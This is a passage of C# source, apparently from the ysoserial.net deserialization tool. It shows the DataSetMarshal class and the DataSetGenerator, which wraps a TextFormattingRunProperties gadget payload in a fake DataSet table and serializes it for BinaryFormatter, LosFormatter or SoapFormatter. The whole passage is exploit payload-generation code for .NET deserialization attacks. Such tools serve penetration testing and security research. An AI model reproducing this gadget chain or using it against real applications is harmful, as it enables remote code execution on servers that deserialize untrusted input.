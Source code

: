 ```csharp
    public void SetFakeTable(byte[] bfPayload)
    {
        _fakeTable = bfPayload;
    }

    public DataSetMarshal(byte[] bfPayload)
    {
        SetFakeTable(bfPayload);
    }

    public DataSetMarshal(object fakeTable):this(fakeTable, new InputArgs())
    {
        // This won't use anything we might have defined in ysoserial.net BinaryFormatter process (such as minification)
    }

    public DataSetMarshal(object fakeTable, InputArgs inputArgs)
    {
        MemoryStream stm = new MemoryStream();
        if (inputArgs.Minify)
        {
            ysoserial.Helpers.ModifiedVulnerableBinaryFormatters.BinaryFormatter fmtLocal = new ysoserial.Helpers.ModifiedVulnerableBinaryFormatters.BinaryFormatter();
            fmtLocal.Serialize(stm, fakeTable);
        }
        else
        {
            BinaryFormatter fmt = new BinaryFormatter();
            fmt.Serialize(stm, fakeTable);
        }

        SetFakeTable(stm.ToArray());
    }

    public DataSetMarshal(MemoryStream ms)
    {
        SetFakeTable(ms.ToArray());
    }
}

public class DataSetGenerator:GenericGenerator
{
    public override object Generate(string formatter, InputArgs inputArgs)
    {

        byte[] init_payload = (byte[]) new TextFormattingRunPropertiesGenerator().GenerateWithNoTest("BinaryFormatter", inputArgs);

        DataSetMarshal payloadDataSetMarshal = new DataSetMarshal(init_payload);

        if (formatter.Equals("binaryformatter", StringComparison.OrdinalIgnoreCase)
            || formatter.Equals("losformatter", StringComparison.OrdinalIgnoreCase)
            || formatter.Equals("soapformatter", StringComparison.OrdinalIgnoreCase))
        { 
            return Serialize(payloadDataSetMarshal, formatter, inputArgs);
        }
        else
        {
            throw new Exception("Formatter not supported");
        }
    }
}
```